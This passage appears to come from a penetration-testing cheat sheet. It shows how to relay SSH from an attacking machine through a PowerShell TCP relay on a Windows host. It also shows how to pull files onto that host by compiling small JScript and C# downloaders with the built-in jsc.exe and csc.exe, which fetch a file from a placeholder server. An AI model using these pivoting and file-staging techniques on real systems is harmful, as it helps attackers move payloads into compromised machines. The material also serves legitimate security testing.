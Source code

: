 Start `apprelay.py` on the attacking machine.

Execute `powershell -File tcprelay.ps1` on the Windows host.

When `apprelay.py` indicates that you can start your local application execute `ssh user@localhost -p 2222`.

## >> Downloading files with compiled Javascript

First, as administrator, register the System .NET assembly.

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\RegAsm.exe System.dll`

As ordinary user, perform the following steps.  Create a javascript file, dl.js.

```javascript
var strURL = "http://download.domain.com/file.bin";
var strFilePath = "C:\\folder\\file.bin";
var oWebClient = new ActiveXObject("System.Net.WebClient");
oWebClient.DownloadFile(strURL, strFilePath);
```

Compile dl.js into an exe.

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\jsc.exe dl.js`

Now execute `dl.exe` to retrieve the file.

## >> Downloading files with compiled C#

Create csharp file, dl.cs.

```
using System.Net;

namespace dlfile
{
   class dl
   {
      static void Main()
      {
         string URL = "http://download.domain.com/file.bin";
         string FilePath = "C:\\folder\\file.bin";
         WebClient WC = new WebClient();
         WC.DownloadFile(URL, FilePath);
      }
   }
}
```

Compile the program.

`c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -out:c:\folder\dl.exe c:\folder\dl.cs`

Execute `dl.exe` to retrieve the file.

## >> Uploading a file via powershell
